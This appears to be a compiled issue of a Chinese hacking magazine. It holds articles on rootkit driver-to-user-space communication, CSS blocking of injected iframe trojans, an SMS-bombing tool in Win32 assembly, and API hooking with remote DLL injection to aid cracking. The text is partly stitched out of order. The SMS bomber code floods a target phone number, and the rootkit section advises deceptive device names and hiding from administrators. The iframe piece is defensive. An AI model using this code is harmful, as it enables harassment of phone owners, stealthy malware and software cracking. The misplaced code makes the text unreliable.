没有 Win32 API 可以用，难道我们要自己在内核空间实现如此复杂的调用？当然不是。我们完全可以创建一个同时在用户空间和内核空间工作的 RootKit。这不是说驱动也可以工作在用户空间，而是我们的 RootKit 将会分为两部分，一个是运行在内核空间的驱动部分，另一个是运行在用户空间的可执行文件。一些特殊的功能就靠用户空间的进程向内核空间的驱动发出请求 (IRP)，驱动完成特定的操作并响应。这就是我们今天要讲的重点——驱动与用户空间的通信。

通常驱动与用户空间的通信有以下几种方法：

- 1、挂接分层驱动到文件系统驱动上，截获对特殊路径的请求。这种方法好处是使用现有的设备，不会增加新的设备，同时可以完成其他任务，比如文件嗅探。缺点是因操作系统的版本不同，可能会有兼容性的问题，因为是向关键设备添加新的驱动层，有可能会在驱动尚未加载时就被杀毒软件识别，查杀或者报警，引起系统性能的明显下降，易引起怀疑。另外，处理消息过于庞杂，容易出错。
- 2、添加一个新设备供用户空间的程序访问。这个方法的优点比较清晰，就是克服了第一个方案的缺点。缺点也比较清晰，“克服”了第一个方案的优点。对于添加了新设备这个缺点，有几种办法可以加以改进。第一，肯定是起一个具有迷惑性的设备名。第二，以后我们会讲到，驱动程序可以隐藏自身设备。但是这两个方法不要同时用，试想，如果管理员发现了隐藏的设备，设备名却是一个貌似正常的设备，那么很明显，这是一个“不怀好意”的设备。

在这里我们只讨论第二种方法，对第一种方法感兴趣的朋友，可以去查一查相关资料。要向系统添加一个新设备不算复杂，在 DriverEntry() 函数中调用几个 API 就搞定。代码如下：

```c
const WCHAR devicename[] = L"\Device\my"; // 定义设备名
const WCHAR linkdevicename[] = L"\DosDevices\my"; // 定义联接名

UNICODE_STRING link_device_name;
PDEVICE_OBJECT my_rootkitdevice; // 全局指针

RtlInitUnicodeString(&device_name_unicode, devicename);
RtlInitUnicodeString(&link_device_name, linkdevicename);

ntstatus = IoCreateDevice(theDriverObject,
    0,
    &device_name_unicode,
    FILE_DEVICE_UNKNOWN,
    0,
    TRUE,
    &my_rootkitdevice); // 创建设备

if (NT_SUCCESS(ntstatus)) { // 创建成功
    IoCreateSymbolicLink(&link_device_name, &device_name_unicode);
} else { // 创建失败
    DbgPrint("Device not created!\n");
    IoDeleteDevice(theDriverObject->DeviceObject);
}
```

要注意，这仅仅是创建了设备，并没有定义设备处理各种消息的函数。强烈建议在创建设备之前注册处理函数，因为设备在什么时候被访问是不可确定的。看下面的代码，同样得在 DriverEntry() 函数中调用。

```c
theDriverObject->MajorFunction[IRP_MJ_CREATE] = open_call;
theDriverObject->MajorFunction[IRP_MJ_CLOSE] = close_call;
theDriverObject->MajorFunction[IRP_MJ_READ] = read_call;
theDriverObject->MajorFunction[IRP_MJ_WRITE] = write_call; // 设置 IRP 处理函数。
```

Windows 被称为基于消息驱动的操作系统不是没有道理的，处理函数的调用都被看成处理 IRP 消息的函数，这里我只注册了处理打开设备、关闭设备、读设备、写设备的消息处理函数。还有其他很多种 IRP 消息处理函数，如 IRP_MJ_IOCTL 等，可以到 ntddk.h 里面找到。IRP 消息处理函数的原型如下：

```c
NTSTATUS my_irp_func(IN PDEVICE_OBJECT fdo, IN PIRP Irp);
```

对于 open_call 函数，这里暂时不处理多个进程同时打开 (因为比较复杂)，就简单的判断，如果当前没有进程打开了设备，就返回打开成功，否则打开失败。代码如下：

```c
NTSTATUS open_call( IN PDEVICE_OBJECT fdo, IN PIRP Irp){
    NTSTATUS status;
    DbgPrint("In open_call()\n");
    if (isopen) {
        DbgPrint("Open failed\n");
        Irp->IoStatus.Status = status = STATUS_INVALID_PARAMETER;
        IoCompleteRequest(Irp, IO_NO_INCREMENT);
    } else {
        DbgPrint("Open success!\n");
        isopen = TRUE;
        Irp->IoStatus.Status = status = STATUS_SUCCESS;
        IoCompleteRequest(Irp, IO_NO_INCREMENT);
    }
    return status;
}
```

稍微提一下，isopen 是一个全局变量，用来判断当前是否有进程打开了设备，更严谨的做法是再加上一个锁，保证不被抢占，多 CPU 环境下也能正常运行。在纯 C 中是没有 BOOL 数据类型的，FALSE 和 TRUE 都被视为非法。我的做法是定义了几个宏，代码如下：

```c
#define BOOL char
#define FALSE 0
#define TRUE 1
```

上面代码中最需要注意的是 IoCompleteRequest(Irp, IO_NO_INCREMENT); 这一句。这个调用的意义在于告诉 IRP 管理器，当前 IRP 消息已经处理结束，不要再向下传递 IRP 消息 (Windows 驱动程序可以是分层的)。

类似的可以完成 close_call 函数，只要判断一下文件是否被打开 (用户空间调用的 CloseHandle() 通过打开设备得到的 HANDLE 来关闭设备，所以一般来说不会出现没有打开就关闭的情况。为了安全起见，还是判断一下比较好。)，如果已经打开，就允许关闭。下面就要来完成比较复杂的 read_call 和 write_call 函数了。

在处理读 / 写的函数中，通过下面的这些代码可以访问到 WriteFile() 和 ReadFile() 中的参数，这些参数的具体意义可以去参考《Windows 核心编程》或 MSDN。

```c
PIO_STACK_LOCATION IrpStack = IoGetCurrentIrpStackLocation(Irp);
ULONG ReadLen = IrpStack->Parameters.Read.Length;
//DWORD nNumberOfBytesToRead
ULONG WriteLen = IrpStack->Parameters.Write.Length;
//DWORD nNumberOfBytesToWrite
void *buffer = Irp->UserBuffer;
//LPCVOID IpBuffer
Irp->IoStatus.Information = Real_ReadLen;
//LPDWORD IpNumberOfBytesRead
Irp->IoStatus.Information = Real_WriteLen;
//LPDWORD IpNumberOfBytesRead
```

得到了这些参数，就可以进行我们所希望的一些操作了。记得调用IoCompleteRequest(Irp,IO_NO_INCREMENT);就行了，完整的 read_call()代码会在下一部分给出。

所有的这些参数中，需要特别注意的是 buffer 参数。它的值为 ReadFile()或者 WriteFile()中的 lpBuffer 参数，我们不可以简单的检查这个参数是否为 NULL；更进一步，是去检查指针是否位于内存空间的前 64K 或者 2G 用户内存空间的最后 64K。够了吗？不够，还得检查这个指针之后的 ReadLen 或者 WriteLen 字节是否位于 2G 用户内存空间的最后 64K（这里不考虑 W2k Server 的 /3G 选项）。至于为什么，参考前面说的那两个资料吧。

这部分的内容比较多也比较杂，我来归纳一下吧：

- 1、用户空间的进程通过打开驱动程序创建的设备与驱动进行通信。
- 2、在 DriverEntry()函数中注册 IRP 处理函数，创建设备。
- 3、IRP 处理函数，以及要注意检查参数，保证驱动的可靠性。

注：原文中的代码都是从编译通过的源代码里面复制的，只要配置没有问题，应该不会出错。

## 编辑点评：

虽然枯燥了点，但高深的技术就是这样，正所谓鱼和熊掌不可兼得啊！

# 站长的福音
## ——屏蔽 iframe 挂马

南京自动化研究院 冯谷/rabbitsafe

从本文您可以学到：

- 1、了解 CSS 的基本用法
- 2、用 CSS 屏蔽 iframe 挂马

大家好，这段时间认识了个网站站长，在聊天中得知关于网站管理中的一些问题，其中最让站长头疼的就是网站被挂马，而且是全站挂马。前段时间听说可以利用 CSS 样式表来屏蔽 iframe 挂马，今天就跟大家一起分享一下，希望以下内容对各位站长有些用处。

其实，现在网上挂马方式有好多种，其中用的最多的有两种：

- 1、直接在网页文件里插入 iframe 代码

网站文件中插入木马代码<iframe src="http://www.baidu.com/" width="100" height="100" frameborder="0"></iframe>。

- 2、在网页文件里插入 JS 代码

JS 文件可以存放在网站目录里，也可以存放在其它网站，一般都存在网站目录里，使得站长朋友更难找到木马代码。网站文件中插入 JS 代码<script src=test.js></script>，在 JS 文件中插入木马代码document.write('<iframe src="http://www.baidu.com" width="100" height="100" frameborder="0"></iframe>')。

这两种方法最终都要用到 iframe 框架代码，因此我们只要想办法来解决 iframe 框架代码，就可以成功解决网站挂马的问题。

CSS 样式表大家应该都不陌生了吧，特别是对于站长朋友。现在的网站，如果少了 CSS 样式表，那简直难以想象网站会是什么样子，特别是现在对网站美观和功能要求越来越高的情况下，CSS 样式表更是不可少。先给大家简单介绍一下 CSS 样式表吧。CSS 样式表主要是美化网站整体效果，同步多个网页效果。CSS 样式表分为内联样式表和外联样式表。内联样式表会把 CSS 代码写在网页文件里，可重复性比较差。外联样式表则把 CSS 代码写在单独的 CSS 文件里，然后在网站页面做 CSS 文件链接，可重复性比较强。由于 CSS 样式表可以对所有网站元素进行定义，拥有很多属性值，其中有一个是描述 iframe 元素的，在 IE5 及其以后版本支持在 CSS 中使用 expression，用来把 CSS 属性和 JavaScript 脚本关联起来，这里的 CSS 属性可以是元素固有的属性，也可以是自定义属性。就是说 CSS 属性后面可以是一段 JavaScript 表达式，CSS 属性的值等于 JavaScript 表达式执行的结果。在表达式中可以直接引用元素自身的属性和方法，也可以使用其他浏览器对象。这个表达式就好像是在这个元素的一个成员函数中一样。

仔细想想，要防止 iframe 里的网页木马被下载的最好办法是什么？那就是切断 iframe 里的请求，切断请求就是要迅速销毁 iframe对象。如何实现呢？我们上面介绍了expression，expression是可以执行 JS 脚本。语法格式如下：标记固有的 CSS 属性名 expression(JS 表达式)；或自定义属性名 expression(JS 表达式)；，在这里我们选择第二种，代码应该是为 iframe{v: expression(JS 表达式);}。

接下来的问题是如何销毁网页里所有的 iframe 对象。使用 JS 实现的原理是这样的，使iframe里的请求地址变成空白页(about: blank)，再将 iframe 对象从 DOM（文档对象模型）中移除，这样就可以切断所有 iframe 里的请求了。移除 DOM 节点的方法比较多，我这里就用 outerHTML 这个属性吧。CSS 代码如下：iframe {v:expression(this.src='about:blank',this.outerHTML='');}。说明一下，前面的 v 字是自定义的一个 CSS 属性，这里的 this 代表所有将要描述外观的 iframe 对象，中间的逗号代表两句代码一起执行，没有执行优先顺序，这可是强有力的保证。about:blank 代表空白页，大家都知道的。outerHTML 属性是 DOM 对象包含自身的 HTML 代码，而 innerHTML 则是DOM对象（不含本身）里面所包含的 HTML 代码。

OK，代码写好了，就让我们来测试一下效果吧。首先新建一个网页，网页内容如下：

```html
test iframe!
<iframe src="http://www.baidu.com/" width="100" height="100" frameborder="0"></iframe>
<script src=test.js></script>
```

Test.js 文件存放在网站根目录下，文件代码内容如下：

```javascript
document.write('<iframe src="http://www.baidu.com" width="100" height="100" frameborder="0"></iframe>');
```

我们来访问看看效果吧，如图 1 所示。这里我把百度网站当作有木马网站，木马网站被访问了两次，大家看看给出的网页代码就应该知道是怎么回事了。下面，我们在刚才的网页代码内容中添加如下内容：

图 1 执行 iframe 后的效果

```html
<STYLE>
iframe{v:expression(this.src='about:blank',this.outerHTML='');}
</STYLE>
```

# 汇编实现

## 短信炸弹

倾城

从本文您可以学到：

- 1、了解用 WS 抓包分析
- 2、简单构造数据包
- 3、利用 Win32 汇编实现发送构造的数据包

大学生活真是无聊到家了，上课时间超少，就一上午。好了，不发牢骚了，转入正题——汇编写短信炸弹。这个实现起来，其实是挺简单的，就是用一个 send 函数去发个包就可以了。

这个数据包在什么地方得到就看你的喜好了，你可以去个提供什么彩信、笑话的网站，找个不用验证码就能发的，用 WS 抓个包就 OK 了。WS 得到的数据包如下：

```text
GET /show.do?ordertype=1&mobileId=1506336****&webownerId=10321&serviceId=100001&id=11071630047403508496&goPage=2 HTTP/1.1
打 * 的地方是我的手机后四位，我就不告诉你们了，害怕你们把我发爆了
Accept:*/*
Host:mms.3bu.com
```

最后两处空行是两个回车换行，代码就是 13、10，这两行是必须要有的。这个包在定义的时候要定义在一行里。

```text
GET /show.do?ordertype=1&mobileId=1506336****&webownerId=10321&serviceId=100001&id=11071630047403508496&goPage=2 HTTP/1.1,13,10,Accept:*/*,13,10,Host:mms.3bu.com,13,10,13,10,0
```

包定义完成后用 NC 提交就可以，不过我自己试过，发的速度不怎么快，一次收到 7 条，过了好半天又收上几条，加上 NC 要收返回的信息包，速度就更慢了。我用自己写的程序发了 10 条试了下，那叫一个爽呀，瞬间就来了，我手机被振的，不对，是我的手被振得发麻。还是说说我们要怎么来写这个程序吧，写好的程序界面如图 1 所示。

图 1 程序界面

样子难看了点，凑合着看吧。窗体的安排是在一个资源文件下写的（.rc 文件），就不贴出来了。好了，开始讲解一下关键代码，代码如下：

```assembly
.ELSEIF eax == IDC_BUTTON_OPEN || eax == IDOK
invoke GetDlgItemText, hWnd, IDC_EDIT_INPUT, addr moble, 12d
invoke wsprintf, addr szText, addr senddata1, addr moble, eax
invoke GetDlgItemText, hWnd, IDC_EDIT_INPUT2, addr count, 8d
mov esi,offset count
xor ecx,ecx
xor eax,eax
push edx
go1:lodsb
cmp al,0
jz go2
sub al,30h
add ecx,eax
mov edx,ecx
shl ecx,2
add ecx,edx
shl ecx,1
xor eax,eax
jmp go1
go2:mov ecx,edx
pop edx
P1:
push ecx
push 0
push 0
push 0
push offset SendDDOS
push L2-L1
push offset tlp
call CreateThread
push 300d
call Sleep
pop ecx
loop P1
push 0
push offset szTitle
push offset szContext
push hWnd
call MessageBoxA
.ENDIF
.endif
.ELSE
mov eax,FALSE
ret
.ENDIF
mov eax,TRUE
ret
WndProc endp
L1:
SendDDOS proc
………………
………………
………………
SendDDOS endp
L2:
```

这里是部分代码，具体代码在光盘里，代码面前没有秘密嘛。第一行的意思就是攻击键按下去要实现的代码，接着是读出我们指定的手机号码和攻击次数。读 textbox 用 GetDlgItemText 函数，参数我从左到右来说吧。第一个参数是 hWnd，就是窗口的句柄；第二个控件名，在资源中定义的；第三个是存储地址；第四个就是要存的位数，不过要加上一位，因为还有一位 \0。

wsprintf 这个函数是用来整合字符串的，把两个字符串整合到一起，这里把得到的手机号码和我们的包整合在一起，就是在要整合的地方用 %s 标识一下就可以了，也就是说只要在包中手机的地方用 %s 来表示就可以实现手机号的提取了。下面的 GetDlgItemText 是得到要攻击的次数的 Text 控件，不过它得到的次数是用 ASCII 来表示的，要用就不怎么容易了，没办法只能自己来写个算法。代码如下：

```assembly
mov esi,offset count
xor ecx,ecx
xor eax,eax
push edx
go1: lodsb
cmp al,0
jz go2
sub al,30h
add ecx,eax
mov edx,ecx
shl ecx,2
add ecx,edx
shl ecx,1
xor eax,eax
jmp go1
go2:mov ecx,edx
pop edx
```

让我来解释一下吧。把得到的 ASCII 值的地址指针放在 ESI 中，把 ECX 和 EAX 清空，因为我们要用到。另外还要用到 EDX，那就用 PUSH EDX，把 EDX 保存一下，用 lodsb 读字，比较一下是不是空值，是就走人。数值的 ASCII 是 30h——39h，我们给减去 30h，也就得到我们要用的次数了。这样我们只是得到了一位，如果我们写的值是个 3 位数该怎么办呢？我想的就是给它左移不就可以了，在 10 进制下怎么左移呢？乘 10 就可以了。好了，让我们在二进制下来实现吧。我们用 ECX 来作为累加器，不过还要保存这个和，就存在 EDX 里了，把 ECX 左移二位（二进制中左移一位就是乘 2），即乘 4，再和 EDX 加在一起，现在就是乘 5 了吧？把得到的值再左移一位，是不是一共就是乘 10 了？不怎么明白的，我想你还要再来学习一下二进制了。

下面就用一个 loop 来实现循环创建线程，循环的次数存在 ECX 中，不过在创建线程的过程中，ECX 的值会被改变，所以就要用 PUSH ECX 保存一下，再用时 POP ECX 还原就可以了。

好了，到这里我们已实现了提取外部输入和创建线程了，但是这个线程的内容我们还没有写，下面我们就去写线程的代码。代码如下：

```assembly
SendDDOS proc
push offset wsainfo
push 0202h
call WSAStartup
push IPPROTO_TCP,6
push SOCK_STREAM,1
push AF_INET,2
call socket
mov hSockL,eax
push 80d
MOV WORD PTR SS:[ESP+34],2
call ntohs
push offset ConnectIP
MOV WORD PTR SS:[ESP+36],ax
call inet_addr
cmp eax,-1
jnz gethost
push offset ConnectIP
call gethostbyname
test eax,eax
je endl
gethost:
MOV DWORD PTR SS:[ESP+34],EAX
LEA ECX,DWORD PTR SS:[ESP+30]
; mov server.sin_family, AF_INET
; mov esi,eax
push offset ConnectIP
call pinet_addr
mov server.sin_addr,eax
push 10h
push ecx
push hSockL
call connect
cmp eax,0
jnz endl
```

```assembly
push offset szText
call lstrlen
push 0
push EAX
push OFFSET szText
push hSockL
call send
endl:
push hSockL
call closesocket
call WSACleanup
ret
SendDDOS endp
```

以上内容就是线程的代码了，是不是看上去有一点乱呀？本人不是正统程序员，写的代码就是随心所欲，所以有点乱，大家慢慢看吧。开始的几个函数就是建立一个 socket，这就不用多说了，ntohs 一个把端口的值给转换一下，其实用不带 CF 的循环左移 8 位或右移 8 位也可以。DWORD PTR SS:[ESP+30] 是 sockaddr_in 结构的开始指针，这个是我自己构造的一个结构，主要还是节约空间。我用的是 ESP 做的指针，你们可不要学我哦，这样用是有问题的，正规的是要用 EBP 来作为堆栈的指针。inet_addr 是把 IP 转换成网络上传输的格式。把转换好的 IP、端口存到 sockaddr_in 结构的对应的位置就 OK 了。下面就来连接吧，用 connect，10h 是结构 sockaddr_in<> 的大小，ECX 是 sockaddr_in<> 结构的开始指针，hSockL 是建立的 socket 句柄，成功返回 0，不等就是失败。成功就开始发包了，用 send 函数。我们最后的工作是要得到要发的包的大小，用 lstrlen 就 OK。EAX 是要发的包的大小，szText 是要发的包的地址，hSockL 是建立的 socket 句柄，call send，发送 OK。

最后把没用的句柄都关闭，关闭 socket，关闭 WSA。

正如我说的那样，这个程序主要就是用 send 函数来发一个包，但是在提取外部输入的时候就是一个麻烦事了。

文章写得仓促，如有什么不对的地方还请指正，多多批评。我的一个 Friend 也快要过生日了，借贵宝地向她祝贺，芳若生日快乐！最后祝“黑手”越办越好！

> （文中提到的汇编实现短信炸弹的代码已经收录在光盘中）

# 编辑点评

利用程序来实现短信炸弹已经见多了，但本文用汇编来实现，可以给各位正在学习 Win32 汇编的看官提供一些帮助。

# 简单的 API Hook 实现——写一个帮助破解的小软件

残猎

学 Windows 系统编程大半年了，于是把自己学破解时的一个编程想法用 VC 编程来实现。

首先讲一下程序的作用，在破解时有些程序使用 CreateFileA 和 RegCreateKey 等函数来创建文件/注册表，表示文件已创建或注册表已注册等。所以破解者们往往要 bp 来下断点再执行，可我认为这样有点麻烦，所以想把这些时常要关注的 API 函数替换，方便破解者们下断点后直接跟进，对程序进行破解。

现在讲一下程序的编程实现。我的思路是利用 DLL 进行远程线程注入，在 DLL 内部实现 API 函数的替换。所以，我们的程序有两个工程，一个注入程序，一个 DLL。对 API 函数替换的方法就是定位导入表，找到需要的 API 函数的地址，把地址换成我们的函数地址，来提醒我们被破解的程序使用了哪些敏感的 API 函数。

首先要复习下 PE 文件头，方便大家理解 PE 文件导入表的函数地址得到的代码。PE 文件头以 64 字节的 DOS 文件头（IMAGE_DOS_HEADER 结构）开始，之后是一小段 DOS 程序，然后是 248 字节的 NT 文件头（IMAGE_NT_HEADER 结构）。NT 文件头的偏移地址由 IMAGE_DOS_HEADER 结构中的 e_lfanew 所给出。其中 NT 文件头前 4 个字节是文件签名“PE\0\0”，之后是 20 字节的 IMAGE_FILE_HEADER 结构，在它之后是 224 字节的 IMAGE_OPTIONAL_HEADER 结构，我们就利用它得到导入表。画一个简单的图来表示我们程序的工作原理，如图 1 所示。代码如下：

图 1 程序的工作原理

```cpp
DWORD* lp = NULL;
// 得到函数进程模块基地址
// 注意 dll 中用 GetModuleHandle 函数得到的是进程句柄
HMODULE lpBase = GetModuleHandle(NULL);
// IMAGE_DOS_HEADER 的定位
IMAGE_DOS_HEADER* pDosHeader = (IMAGE_DOS_HEADER*)lpBase;
IMAGE_OPTIONAL_HEADER * pOptHeader =
(IMAGE_OPTIONAL_HEADER *)((BYTE*)lpBase + pDosHeader->e_lfanew + 24);
IMAGE_IMPORT_DESCRIPTOR* pImportDesc =
(IMAGE_IMPORT_DESCRIPTOR*)
((BYTE*)lpBase + pOptHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress);

// 接下来就是定位 dll 了
while(pImportDesc->FirstThunk)
{
    // 得到 DLL 文件名
    char* pszDllName = (char*)((BYTE*)lpBase + pImportDesc->Name);
    // 比较得到的 DLL 文件名是否和要 HOOK 函数所在的 DLL 相同
    if(lstrcmpiA(pszDllName, DllName) == 0)
    {
        break;
    }
    pImportDesc++;
}
```

如果输入的 DLL 与我们要找的函数所在的 DLL 是同一个，再判断函数地址是否和挂钩函数相同，如果相同，那就替换掉。这里用两个 while 循环，先比较 DLL 的名字，再比较函数地址，进行替换的工作。代码如下：

```cpp
// 定位到 FirstThunk 参数指向的 IMAGE_THUNK_DATA，此时这个结构已经
// 是函数入口点地址了
IMAGE_THUNK_DATA* pThunk = (IMAGE_THUNK_DATA*)
((BYTE*)lpBase + pImportDesc->FirstThunk);

// 遍历这部分 IAT 表
while(pThunk->u1.Function)
{
    lp = (DWORD*)&(pThunk->u1.Function);
    // 比较函数地址是否相同
    if(*lp == (DWORD)OldFunAddr)
    {
        DWORD dwOldProtect;
        // 修改内存保护属性
        MEMORY_BASIC_INFORMATION mbi;
        VirtualQuery(lp, &mbi, sizeof(mbi));
        VirtualProtect(lp, sizeof(DWORD), PAGE_READWRITE, &dwOldProtect);
        // API 函数的入口点地址改成我们构造的函数的地址
        WriteProcessMemory(GetCurrentProcess(), lp, &NewFunAddr, sizeof(DWORD), NULL);
        // 恢复内存保护
        VirtualProtect(lp, sizeof(DWORD), dwOldProtect, 0);
    }
    pThunk++;
}

return lp;
}
```

这里我让函数返回了地址指针，方便以后改回原函数的地址。要强调一下内存保护，如果在 VC 中，大家用 Debug 版本的话可以不解除保护，可是用 Release 版本会出错，所以要用修改内存保护代码来解除后再修改地址。替换用的函数比较简单，我贴其中一个出来。这里我把函数的参数全换成了原函数的参数，防止出错。代码如下：

```cpp
// 自己的 RegCreateKey 线程函数
BOOL __stdcall MyFunTion_RegCreateKey(HKEY hKey,
LPCTSTR lpSubKey,
PHKEY phkResult)
{
    MessageBox(NULL, "RegCreateKey is used", "API HOOK", 0);
    return 0;
}
```

我们再看一下 DLL 主函数主体代码。

```cpp
BOOL APIENTRY DllMain(HANDLE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    // dll 映射到内存后
    case DLL_PROCESS_ATTACH:
        // 得到 CreateFileA 函数地址
        OldProc = (PROC)CreateFileA;
        // 得到 RegCreateKey 函数地址
        OldProc_se = (PROC)RegCreateKey;
        // 定位，修改 IAT 表
        lpAddr = HooK_FunTion("kernel32.dll", OldProc, (PROC)MyFunTion_CreateFile);
        lpAddr_2 = HooK_FunTion("advapi32.dll", OldProc_se, (PROC)MyFunTion_RegCreateKey);
        break;
    // dll 就要被内存中释放时
    case DLL_PROCESS_DETACH:
        // 恢复 IAT 表中 API 函数的入口点地址，两个指针参数便是函数返回的。
        WriteProcessMemory(GetCurrentProcess(), lpAddr, &OldProc, sizeof(DWORD), NULL);
        WriteProcessMemory(GetCurrentProcess(), lpAddr_2, &OldProc_se, sizeof(DWORD), NULL);
        break;
    }
    return TRUE;
}
```

当然了，当 DLL 被内存中释放时要用 WriteProcessMemory 改回来，因为篇幅原因，DLL 先讨论到这里，下面讨论注入程序。注入程序我们只讨论重要的注入部分。

注入 DLL 的程序必须有系统 Debug 权限，所以先给程序提升权限。提权之后便可以用注入 DLL 的函数实现 DLL 注入了。代码请看源代码，就不浪费篇幅了。注入程序的主要顺序是，首先得到要注入程序的句柄，在它内部申请一个足够大的空间来存放 DLL，再把 DLL 写入内存。线程函数的原型：DWORD WINAPI ThreadProc(LPVOID lparameter)，LoadLibrary 原型：HMODULE WINAPI LoadLibrary(LPCTSTR lpFileName)。所以可以得到 LoadLibrary 函数的地址来实现注入 DLL 的目的。代码如下：

```cpp
BOOL Inject_DLL(const char *DllFullPath, const DWORD dwRemoteProcessId)
{
    HANDLE hRemoteProcess = NULL;
    // 打开目标进程
    if((hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE,
        dwRemoteProcessId)) == NULL)
    {
        printf("OpenProcess error\n");
        return FALSE;
    }
}
```

## Javaer 突击之以小建大

NaoFanTian

- 从本文您可以学到：
  - 1、简单了解 Java 语法及开发环境
  - 2、学习抓包分析、发送邮件等
  - 3、利用 Java 实现获取 IP、发送邮件

## 前面的话

当你看到这篇文章，不要眼都不眨的就跳过它。你心里可能会想：编程？Java？我可能看不懂，这都是高手才搞的，我还是看看后面有没有简单、易学、有趣、强大的文章。

我只是想说，如果你是一个只会用个工具扫扫漏洞，盗盗密码就能飘飘然的家伙，你倒不如买本《读者》或者《青年文摘》之类的杂志读读，请跳过这篇文章吧。

本人是个彻头彻尾的菜鸟，所以一直在不断学习，希望能和有理想、有思想、有文化、有知识的“四有新人”交流。

## 事出有因

最近遇到个问题，朋友在家里（内网）有个FTP服务器软件，

```cpp
char *pszLibFileRemote=NULL;
// 申请存放 dll 文件名的路径
pszLibFileRemote=(char *)VirtualAllocEx( hRemoteProcess,
    NULL, lstrlen(DllFullPath)+1,
    MEM_COMMIT, PAGE_READWRITE);
if(pszLibFileRemote==NULL)
{
    printf("VirtualAllocEx error\n");
    return FALSE;
}
// 把 dll 的完整路径写入到内存
if(!WriteProcessMemory(hRemoteProcess,
pszLibFileRemote, (void *)DllFullPath, lstrlen(DllFullPath)+1, NULL) == 0)
{
    printf("WriteProcessMemory error\n");
    return FALSE;
}
// 得到 LoadLibraryA 函数地址
PTHREAD_START_ROUTINE pfnStartAddr=(PTHREAD_START_ROUTINE)
GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
if(pfnStartAddr == NULL)
{
    printf("GetProcAddress error\n");
    return FALSE;
}
HANDLE hRemoteThread=NULL;
// 启动远程线程
if( (hRemoteThread = CreateRemoteThread(hRemoteProcess, NULL, 0,
    pfnStartAddr, pszLibFileRemote, 0, NULL) )==NULL )
{
    printf("CreateRemoteThread error\n");
    return FALSE;
}
// 关闭无用指针
::CloseHandle(hRemoteProcess);
::CloseHandle(pszLibFileRemote);
::CloseHandle(hRemoteThread);
return TRUE;


```

本程序在 XP 下用 VC6.0 编译通过，我还写了一个测试程序 text，它调用了 CreateFileA 和 RegCreateKey，大家可以试一下。因为为了写文章，我只挂钩了两个函数，实际上要挂钩大量函数，这里只做演示用。调用后直接输入进程名就可以注入了。

(文中提到的一个帮助破解的小软件的代码已经收录在光盘中)

> 编辑点评：破解中发现问题，利用程序来解决问题，免除了重复劳动及其导致的错误，值得推广！

希望能从外网访问内网的 FTP 服务器。但是外网的 IP 是动态分配的，掉线后每次连接总是变化，所以一旦 IP 地址变化就连不上家中的服务器了，希望我想个办法解决一下。

让我们明确一下目标。我们最终的是通过内网 PC_1 访问另一个内网的 PC_4 上的服务器，即使对外网 IP 变化后仍然能再次连接，有点类似反弹木马的原理，但是俺不是来搞破坏的，如图 1 所示。

## 理清思路

问题摆在面前，我们现在要做的是把问题细化，抓大放小，理清思路。

第一个问题，如何把内网的 FTP 服务器端口映射到外网。网上到处都有资料，就是用个端口映射工具，很简单，这里不介绍了。说实话有些端口映射程序不好用，毕竟是人家写的，用起来不是很顺手，改起来也很麻烦。不是自己的孩子，怎么看都不亲，实在逼急了自己写一个，原理很简单，程序也不是很难，有机会下回写给大家看。
图 1 需要实现的目标

第二个问题，如何获得本机或者当前局域网的外网 IP。我查了各种各样的资料不下二十页，说法不一，又是读路由器或是读内存的，实现起来也很麻烦，于是我自己独创了个办法。思路是这样，通过本机发送请求到一个网站，然后根据返回的数据流分析出本机或者当前局域网的外网 IP。

第三个问题，机器自动获得 IP 后，如何把 IP 地址告诉外网的我们。我的方法是发送邮件，通过邮件形式接收处在内网中服务器的外网 IP 地址。

## 程序架构

问题明确了，思路清晰了，下面开始为大家讲解程序的架构，如图 2 所示。

整体架构是通过服务器来调用一个定时器，定时器每隔一段时间自动启动一个线程，在线程中先调用获得外网 IP 的对象，然后再调用发送邮件的对象。
图 2 程序架构

这里说明一下为什么用线程，主要是为了保证程序的可扩展性，为以后做功能扩展留出余地。比如，我们以后发现获得 IP 地址后，要同时通过邮件通知几十个或者几百个用户，这时候我们为每一个发送邮件的对象建立一个线程来提高发送效率，或者在发送邮件的同时，我们还需要获得本机文件，然后绑定到邮件一同发送，这些过程可以通过线程同时进行，减少用户的等待时间。而不用等着你执行完了，我再执行。大家是不是发现这些功能和病毒很像？

## 编写代码

终于进入代码编写了，整个代码不到二百行，不可能每行都讲，只对其中的重点和难点适当讲解，源代码中已经增加了详细的注释。如果还有不明白的地方，要多上百度和 Google，不要动不动就去拜师傅，问别人。真正的高手都在世界的某个角落里猫着，哪有时间理咱们这些菜鸟。

开发环境：JDK1.6 或者 JDK1.4，Windows 或者 Linux。开发工具：Eclipse 或者记事本。

这里给没有用 Java 开发过程序的朋友简单介绍一下 Java 开发的基础知识。首先大家知道 Java 有跨平台的特性，所以下面的程序在 Windows 或 Linux 下编写效果是一样的。关于 JDK 的选择，由于向下兼容的特性，1.4 版本是一个基础版本，已经足够完成我们下面的程序了，当然你也可以装两个版本。因为开发需要，我的电脑装了三个版本，即 1.4、1.5、1.6。有关开发工具的选择，根据我做开发的感觉，Eclipse 是首选利器，由于它的插件特性和开源特性，使其功能异常强大，而且方便。你可能会说 JBuilder 也很好用，它是做 Java 应用的，确实很强大，这个工具是给高手和懒人准备的。而且做 Web 应用时，JBuilder 明显感觉不如 Eclipse，当然这些只不过是工具，根据开发习惯不同，大家选自己用的顺手的工具吧。以前听前辈说，五年前的牛人做开发都是用记事本，想想就佩服的五体投地。我们的程序用记事本开发也是没问题的，很小很强大，就是调试和打包麻烦点。

## 重点讲解

我们先来看一下开发环境下的文件结构，如图 3 所示。

第一个红框内的五个文件就是我们程序的核心代码文件，第二个框是 JDK1.6 的标准类库，第三个框是我们将来要用到的一个邮件类包。

首先看一下程序的服务器模块，这个模块主要完成两个任务。一个是启动一个服务进程保证程序的持续运行，一个是启动定时器模块，并设定循环执行任务的间隔。
图 3 开发环境下的文件结构

小知识：
Timer 类是这种定时执行任务的程序经常用到的一个类，线程用其安排以后在后台线程中执行的任务。可安排任务执行一次，或者定期重复执行。schedule(TimeTask task, long delay, long period)是 Timer 类的一个标准方法，其中有三个参数。

- task ——所要安排的任务。
- delay ——执行任务前的延迟时间，单位是毫秒。
- period ——执行各后续任务之间的时间间隔，单位是毫秒。

